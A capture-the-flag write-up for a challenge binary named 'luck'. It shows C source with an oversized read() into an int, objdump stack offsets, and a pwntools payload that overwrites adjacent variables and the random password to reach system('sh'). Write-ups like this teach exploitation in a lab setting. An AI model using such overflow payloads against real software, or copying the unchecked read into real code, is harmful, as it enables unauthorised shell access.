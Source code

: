 # Luck

Again, we being by looking at the `luck.c` file

  ```C
  
    int a = 0 , b = 1 , c = 2;
    int password = random();

    puts( "What do you want to tell me:" );
    read( 0 , &a , 100 );
    
    printf("You say: %s\n" , &a);

    if( b == 0xfaceb00c && c == 0xdeadbeef ){
        puts( "Hello hacker, now guess the password." );
        puts( "A good hacker always 100% guess right :P, are you a good hacker?" );
        printf( "password:" );

        int input;
        scanf( "%d" , &input );

        if( input == password ){
            puts( "Here is your shell!" );
            system( "sh" );
        }
        else{
            puts( "Bad Luck :(" );
            exit(0);
        }
    }    
   ```
   
This is another simple BOF question. We can see the overflow point starts from `read( 0 , &a , 100 )`.

What we need to to is to overwrite b, c, and password so that we can access to `system( "sh" )`

Let's start with our `objdump -d luck`

    400869:	c7 45 e8 00 00 00 00 	movl   $0x0,-0x18(%rbp)
    400870:	c7 45 f4 01 00 00 00 	movl   $0x1,-0xc(%rbp)
    400877:	c7 45 f8 02 00 00 00 	movl   $0x2,-0x8(%rbp)
    40087e:	e8 6d fe ff ff       	callq  4006f0 <random@plt>
    400883:	89 45 fc             	mov    %eax,-0x4(%rbp)

We can see that a is stored in `rbp - 0x18`, b is stored in `rbp - 0xc`, c is stored in `rbp - 0x8`, and password is stored in `rbp - 0x4`

So, the gap between a, b is 12 bytes (0xc), between b, c is 4 bytes (0x4), and between c, password is 4 bytes (0x4).

Therefore, our padding will need 12 bytes (0xc). b will be replaced with `0xfaceb00c`, c will be replaced with `0xdeadbeef`, and password replaced with can be anything we know.

<b>Note: Remember to send `0xfaceb00c` and `0xdeadbeef`, not string</b>

In the end, our play load will be:
  
```Python
  p.sendline(p32(0x11111111) + p32(0x11111111) + p32(0x11111111) +  p32(0xfaceb00c) + p32(0xdeadbeef) + p32(0x00000001))
```
